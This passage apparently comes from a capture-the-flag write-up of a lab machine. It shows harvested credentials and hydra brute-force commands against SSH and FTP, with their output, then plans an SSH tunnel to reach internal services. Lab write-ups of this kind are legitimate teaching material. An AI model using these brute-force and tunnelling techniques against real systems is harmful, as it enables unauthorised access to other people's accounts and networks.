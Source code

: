 Let us save all users and passwords to files and use hydra to check them against FTP and SSH.

All username from contacts.txt and credentials.txt are saved to a file:
```bash
root@darkness:~# cat users.txt
admin
penny
developer
rajesh
amy
leonard
designer
howard
bernadette
waldo
ftpuser
```

```bash
root@darkness:~# cat passwd.txt
fgJr6q#S\W:$P
%n?4Wz}R$tTF7
w0rdpr3ss01!
```

Now everything we find a new set of users or passwords, we can just add it to the list and run the two hydra commands to check for potential working candidates:

```bash
root@darkness:~# hydra -L users.txt -P passwd.txt ssh://10.10.10.187
[DATA] max 16 tasks per 1 server, overall 16 tasks, 33 login tries (l:11/p:3), ~3 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
```
Seems like `ftpuser` is allowed to login via SSH!

```
root@darkness:~# hydra -L users.txt -P passwd.txt ftp://10.10.10.187
[DATA] max 16 tasks per 1 server, overall 16 tasks, 33 login tries (l:11/p:3), ~3 tries per task
[DATA] attacking ftp://10.10.10.187:21/
[21][ftp] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
```
We also seem to have ftp access.


Testing SSH access:
```bash
root@darkness:~# ssh ftpuser@10.10.10.187
ftpuser@10.10.10.187's password: %n?4Wz}R$tTF7
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May  3 15:44:34 2020 from 10.10.14.7
Connection to 10.10.10.187 closed.
```
Our connection is immediately closed. This is probably due to the fact, that the ftpuser's shell is set to `/bin/false` or `/usr/sbin/nologin`. Even though we are not able to login, we could still exploit this to potentially access restricted (internal) resources using an SSH tunnel.
